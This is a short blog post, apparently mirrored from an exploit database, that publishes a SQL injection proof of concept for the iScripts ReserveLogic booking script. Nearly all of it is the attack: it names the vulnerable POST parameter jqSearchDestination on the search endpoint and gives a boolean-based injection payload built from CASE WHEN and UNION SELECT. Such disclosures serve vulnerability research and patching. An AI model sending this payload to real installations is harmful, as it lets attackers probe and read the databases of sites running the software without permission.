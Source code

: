 ```yaml
---
layout:     post
title:      "iScripts ReserveLogic - SQL Injection"
date:       2019-04-03 12:00
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: iScripts ReserveLogic - SQL Injection
# Date: 29.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://www.iscripts.com/reservelogic/
# Demo Site: https://www.demo.iscripts.com/reservelogic/demo/
# Version: Lastest
# Tested on: Kali Linux
# CVE: N/A

----- PoC: SQLi -----

Request: http://localhost/[PATH]/search
Vulnerable Parameter: jqSearchDestination (POST)
Payload: jqSearchDestination=(SELECT (CASE WHEN (8124=8124) THEN 12345 ELSE
(SELECT 3029 UNION SELECT 1241) END))
